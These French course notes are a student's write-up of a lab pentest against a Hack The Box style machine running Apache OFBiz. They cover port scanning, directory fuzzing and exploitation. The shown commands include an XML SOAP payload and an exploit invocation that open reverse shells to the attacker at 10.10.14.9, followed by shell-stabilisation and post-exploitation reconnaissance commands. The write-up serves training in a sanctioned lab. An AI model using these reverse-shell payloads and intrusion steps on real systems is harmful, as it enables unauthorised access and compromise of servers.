





# Pentest

Notes de cours par `Thomas PEUGNET`.

Ce cours présente la marche à suivre pour effectuer les TPs de Pentest.

# Installation

Nous avons téléchargé et installé OpenVPN, puis importé notre fichier de configuration obtenu sur le site.

Nous avons donc une connexion OpenVPN maintenant fonctionnelle.


Nous lançons donc l'installation de notre VM Kali linux.


# Questions

Nous lançons ensuite notre commande `nmap` avec les paramètres suivants:

```shell
$ sudo nmap -sS -T4 -A -v 10.10.11.252
```


## Question 1

De notre point de vue, on peut aller regarder rapidement le port 22 pour le `ssh`, voir si des mots de passe usuels peuvent être utilisés. On pourrait ensuite s'intéresser au port 80 et chercher des serveurs apache mal configurés, permettant d'avoir un `Index of` accessible.

## Question 2

Les options utilisées pour `nmap` sont les suivantes:

- `-sS` : Scan SYN.
- `-T4` : Accélère le scan.
- `-A` : Active la détection du système d'exploitation et des versions des services.

## Question 3

Si notre pentest était en conditions réelles, nous éviterions d'accélérer le scan et d'utiliser le scan SYN car ces techniques risquent de déclencher des alertes auprès des systèmes de détection d'intrusion, ce qui pourrait bloquer notre tentative ou notre appareil. En outre, un scan trop rapide peut omettre des informations essentielles si des paquets sont perdus ou si des services ne répondent pas, réduisant ainsi la fiabilité de notre analyse.

# Lister les répertoires

Nous effectuons un scan avec `ffuf` avec les options suivantes:

```shell
$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.11.252/FUZZ
```


Ne voyant pas de résultat probant sur cette commande, nous tentons notre chance avec `gobuster`.

Nous utilisons donc la commande suivante:

```shell
$ gobuster dir -u http://bizness.htb -w /usr/share/wordlists/dirb/big.txt -k -b 301 -t 20 2>/dev/null
```

- `dir` : spécifie le mode de Gobuster à utiliser, ici pour chercher des répertoires.
- `-w /usr/share/wordlists/dirb/big.txt` : définit le chemin de la wordlist à utiliser pour le fuzzing.
- `-k` : ignore les avertissements SSL, utile si le certificat SSL du site ne peut pas être vérifié.
- `-b 301` : permet de ne pas suivre les redirections
- `-t 20` : définit le nombre de threads à utiliser, accélérant ainsi le processus de fuzzing en permettant à 20 requêtes de s'exécuter en parallèle.

Nous obtenons le résultat suivant:



Nous pouvons constater que l'url `/control` semble être accessible. Nous allons donc creuser dans cette direction.



## Question 1

D'après nos recherches, les trois outils les plus courants pour le crawling sont `ffuf`, `dirb`, et `gobuster`.

## Question 2

`ffuf` utilise `-w` pour la wordlist, `-u` pour l'URL avec le placeholder FUZZ, et `-fs` pour filtrer par taille de réponse, ce qui nous aide à éviter les faux positifs en excluant les réponses de tailles spécifiques.

## Question 3

Selon nousm il s'agit de l'identification des points d'entrée potentiels ou des informations sensibles qui ne sont pas destinées à être publiques, et qui pourraient être exploitées.

# Recherche et exploitation

## Exploitation

Nous créons un payload xml suivant:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"
                  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
                  xmlns:xsd="http://www.w3.org/2001/XMLSchema"
                  xmlns:web="http://ofbiz.apache.org/service/">
    <soapenv:Header/>
    <soapenv:Body>
        <web:executeCommand>
            <web:command xsi:type="xsd:string">bash -i >& /dev/tcp/10.10.14.9/4444 0>&1</web:command>
        </web:executeCommand>
    </soapenv:Body>
</soapenv:Envelope>
```

Puis, nous exécutons la commande `curl` suivante, pour faire la requête avec le payload ci-dessus:

```shell
$ curl -X POST -d @payload.xml -H "Content-Type: text/xml" https://bizness.htb/control
```

Il se trouve que ce n'est pas avec une injection sur un POST de cette façon que nous allons pouvoir arriver à nos fins. Nous allons donc changer de stratégie et passer sur un script existant sur GitHub.

Nous allons donc cloner le repository contenant ce script, puis lancer une session d'écoute sur le port 4448. Voici les commandes que nous avons tapées.

Sur un premier terminal:

```shell
$ nc -lvnp 4448
```

Sur un second terminal:

```shell
# Clone
$ git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass

$ cd Apache-OFBiz-Authentication-Bypass

# Run 
$ python3 exploit.py --url https://bizness.htb --cmd 'nc -c bash 10.10.14.9 4449'
```

Nous obtenons le résultat suivant, après avoir réussi à se connecter et effectuer la commande `ls` et `ip a`:



## Question 1

Oui, il semblerait qu'il y ait une vulnérabilité.

D'après le message d'erreur de la page ci-dessus, nous avons pu constater qu'il s'agissait d'une CVE.



## Question 2

D'après nos recherches, le principe de la vulnérabilité est le suivant:

> *Le CVE-2020-9496 est une vulnérabilité qui affecte Apache OFBiz, un framework open-source pour les systèmes d'entreprise automatisés qui inclut des applications de commerce électronique, de gestion de la relation client, de gestion de la chaîne d'approvisionnement, etc. Cette vulnérabilité est spécifiquement liée à une injection de code XML via des requêtes POST non sécurisées.*

## Question 3

Nous optons pour un reverse shell car il initie une connexion du serveur cible vers notre attaquant, souvent contournant les pare-feux ou les filtres qui bloqueraient une connexion entrante sur la cible.

## Question 4

La lecture d'un script avant exécution est effectuée pour éviter d'exécuter des commandes malicieuses qui pourraient endommager votre système ou compromettre nos données. Cela nous permet de comprendre ce que le script va faire et d'assurer qu'il ne contient pas de fonctions malveillantes ou non désirées.

# Stabilisation du shell

Une fois connecté à notre shell, nous le stabilisons à l'aide des commande suivantes:

```shell
$ python3 -c 'import pty;pty.spawn("/bin/bash")';
$ export TERM=xterm-256color

# Press on CTRL + Z

$ stty raw -echo; fg
```

Après avoir exécuté ces commandes, nous obtenons le résultat suivant:



Nous avons donc un shell stable et fonctionnel sur le serveur distant.

## Question 1

Après stabilisation du shell, nous effectuons les vérifications suivantes:

- **Identité de l'utilisateur** : Nous avons utilisé `whoami` pour voir sous quel utilisateur nous étions connectés.
- **Processus en cours** : Un coup d'œil sur les services actifs avec `ps aux`.
- **Variables d'environnement** : Examinées via `printenv` pour mieux comprendre l'environnement.
- **Fichiers sensibles** : Recherche avec `find / -name "config*.php" 2>/dev/null` pour détecter des fichiers de configuration exposés.
- **Historique des commandes** : Vérifié avec `history` pour voir les commandes récemment utilisées.
- **Connexions réseau** : Observées à l'aide de `netstat -tulnp` pour identifier les ports ouverts et les connexions actives.

## Question 2

Le flag se trouve dans le fichier `/home/ofbiz/user.txt`. C'est par hasard en se promenant sur le serveur que nous sommes tombés dessus.

## Question 3

Pour démarrer une tentative d'élévation de privilèges nous pourrions tester le retour d'un `sudo -l` ou d'utiliser un script comme `linpeas.sh`.